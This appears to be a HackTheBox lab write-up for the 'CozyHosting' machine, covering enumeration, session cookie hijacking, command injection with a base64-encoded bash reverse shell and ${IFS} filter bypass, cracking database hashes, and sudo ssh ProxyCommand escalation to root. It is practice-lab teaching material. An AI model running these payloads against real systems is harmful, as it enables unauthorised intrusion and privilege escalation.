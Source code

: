 HackTheBox write up: “CozyHosting” Machine
==========================================

[![zerosandones](https://miro.medium.com/v2/resize:fill:88:88/1*8PgWCWtteykN7zPXDqImEQ.jpeg)

](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

[zerosandones](https://medium.com/@ahmedgomaa_45441?source=post_page-----8b55beb59ace--------------------------------)

·

[Follow](https://medium.com/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fsubscribe%2Fuser%2Fa3f1b2b68ccf&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40ahmedgomaa_45441%2Fhackthebox-write-up-cozyhosting-machine-8b55beb59ace&user=zerosandones&userId=a3f1b2b68ccf&source=post_page-a3f1b2b68ccf----8b55beb59ace---------------------post_header-----------)

5 min read·Just now

\--

Listen

Share

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/879cc2ee-bedc-448e-8f5a-1fdc65ee1e8c)


Welcome To HACKTHEBOX:CozyHosting machine writeup. It is an easy machine with a focus on web application vulnerabilities and privilage escalation vulnerabilities.

we first start by running a basic nmap scan against the machine ip

```
nmap -sV -sC 10.10.11.230 
```

We are using -sV and -sC here for probing the open ports and trying to get info about the version running by running it against default nmap scripts.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c3c02c60-5f67-4549-b72e-d91dec6843fe)


We can see here that we have port 22 and 80 open, which indicates the existance of web application running on port 80, and SSH service running on port 22, lets take a look at the web application
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/5f3096be-c5ba-4ede-a450-7b96c86c73e0)


Web application

we can observe a web application with a login functionailty, we can visit and try testing for SQL Injection in the login page, but without success.

next step is to enumerate the web application for any hidden directories, we can use different tools, i personally prefer Dirsearch.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/df171dce-4bed-4cf0-9c99-c1a235303f92)


we found few intresting directories, by visiting them, we can find valuable information in the /actuator/sessions directory, as it contains session cookies for the users
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/eed4db23-58ae-4ba5-84fc-735bcbbb12f0)


And by trying to visit the /admin panel, and intercepting the requesting, modifying the session cookie and replacing it with the one we got from /actuator/sessions, we find that we get redirected to the admin dashboard with the admin “kanderson” logged in.

After a quick inspection to the dashboard we find that there is a feature to add a new host to the automatic patching.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/480cc798-d6b1-4544-8ea1-807df7c4e3f6)


After trying to submit data through it, and analyzing the requests in the burpsuite proxy, we find that the submit button calls and endpoint /excutessh
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/39720675-c0e6-4e09-8fdf-b0e9854b87d2)


after poking with it alittle, we find that submitting single quote returns the following error:

```
http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching \`''/bin/bash: -c: line 2: syntax error: unexpected end of file
```
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/687529cc-c0f0-4827-ad2c-545c139697ea)


which allows for the possibilty of command injection, lets try using our payload

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

we are going to base64 encode our payload that that we dont have to use spaces in the payload, as the application filters it out

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

`${IFS%??}` Explanation:

*   `${IFS}`: This is a special shell variable in Unix-like operating systems that stands for "Internal Field Separator." By default, it is set to a space, tab, and newline characters. It's used by the shell to split lines into fields when processing commands.
*   `${IFS%??}`: This is a string manipulation construct in the shell. It trims the last two characters from the `${IFS}` variable. So, if `${IFS}` is set to the default value (space, tab, newline), `${IFS%??}` effectively removes the last two characters (newline and tab) and leaves only the space character, which is required for the payload to run correctly.

Additionally, as the web application may interpret the special characters differently or sanitize them to prevent malicious commands from being executed, we URLEncode our payload.

we start a listener and submit our payload, and we get a reverse connection

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/0894c592-d909-4ca0-96c2-2e03d064644f)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/26b6cfd2-e020-4d48-9666-3c57a00fdebf)

Upon listing looking for files, we find a directory named josh in the /home directory, but we cant access it, we can also see a .jar file in the /app, we download this file into our machine for futher inspection.

we can download it by running a python http.server and then using wget from our machine to download the file.
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/563a5ea9-f256-4642-bfc8-a0bf72b5e5e7)

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/b118bb7c-6327-4de8-b946-e1bb25a7459d)



we can start inspecting this file using tool like jd-gui
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/906a8cca-c720-4475-808b-837b5534946f)


after inspecting we can find that it contains postgres database credentials like the username and the password, so we try to login in to the postgres database using the commnads:

```
psql -h 127.0.0.1 -U postgres

\\c cozyhosting

\\d #to list availabe databases

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/c7d07dc7-f747-413d-b30a-b5511df006b4)



select \* from users; #To select all data in the users database


![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/2032451d-df9e-4898-8a5a-75523888c34c)

the passwords is hashed, we can try to crack it using john the ripper, with the following command, pointing to the wordlist to use ( in this case rockyou.txt will be sufficient )


john hash.txt --wordlist=/home/zeronull/rockyou.txt

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/d0966515-7398-4b64-a993-8df4d8349f9b)

now we can try to use this password to ssh into the machine using the user josh


ssh josh@10.10.11.230 


And we succesfully log in with the user josh, and we can access his directory, and access the user flag.txt

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/7086d8bb-afe1-44c8-88a7-edaffc56b70f)


Privilege Escalation
====================

As for the root flag, we need to do Privilege Escalation in order to access the root directory.

we start by checking the allowed commands for our user to run as root without the passowrd, we check by running sudo -l
![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/42fe3acc-e0e8-49aa-b3f5-7181f9e65855)


we see that we can run (root) /usr/bin/ssh \* as root without having to have the root password, lets check the GTFObins if we can abuse this to escalate our privileges to root.

we find:

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/35470ea6-3de5-4d88-a001-c83bcd1a66df)

and by running


sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x


we get our root access successfully.

![image](https://github.com/ahmedgomaaa/HackTheBox-Writeups/assets/37199252/f68ef66e-4fff-438f-ad98-8a7c34087c83)


and thats how we get our root flag.
